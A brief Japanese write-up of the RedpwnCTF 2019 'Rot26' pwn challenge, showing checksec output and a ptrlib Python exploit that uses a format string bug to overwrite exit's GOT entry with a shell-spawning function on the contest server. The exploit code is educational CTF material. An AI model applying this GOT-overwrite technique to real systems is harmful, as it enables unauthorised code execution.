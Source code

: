 # [pwn 50pts] Rot26 - RedpwnCTF 2019
32ビットでNX以外無効です。
```
$ checksec -f rot26
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   78 Symbols     No       0               4       rot26
```
FSBがあります。
また、シェルを起動してくれる`winners_room`関数があるので、exitのGOTを書き換えてそこに飛ばせばOKです。
```python
from ptrlib import *

elf = ELF("./rot26")
sock = Socket("chall2.2019.redpwn.net", 4003)

writes = {
    elf.got("exit"): elf.symbol("winners_room")
}
payload = fsb(
    writes = writes,
    pos = 7,
    bs = 1,
    bits = 32
)
print(payload)
sock.sendline(payload)

sock.interactive()
```

# 感想
簡単ですね。